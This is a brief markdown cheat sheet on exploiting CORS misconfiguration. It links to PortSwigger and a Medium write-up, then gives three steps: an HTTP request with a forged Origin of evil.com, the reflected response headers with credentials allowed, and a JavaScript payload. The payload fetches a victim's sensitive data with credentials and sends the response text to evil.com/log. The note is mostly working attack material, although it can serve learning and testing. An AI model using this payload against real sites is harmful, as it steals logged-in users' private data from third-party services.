 # misconfig

1.Burp: [https://portswigger.net/web-security/cors](https://portswigger.net/web-security/cors)

2. [https://medium.com/@amangupta566/cors-misconfiguration-leads-to-steal-sensitive-information-disclosure-fdf050b68b66](https://medium.com/@amangupta566/cors-misconfiguration-leads-to-steal-sensitive-information-disclosure-fdf050b68b66)



## How to:

#### 1. set the origin

GET /sensitiveData HTTP/1.1  
Host: vulnerable.com  
Origin: [https://evil.com](https://evil.com/)



#### 2. find the response that can be controlled

HTTP/1.1 200 OK 

Access-Control-Allow-Origin: [https://evil.com](https://evil.com) 

Access-Control-Allow-Credentials: true ...



#### 3. use the js interact with the service:

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='//https://evil.com/log?key='+this.responseText;
};
```

The sensitive response information will be sent to the evil.com..

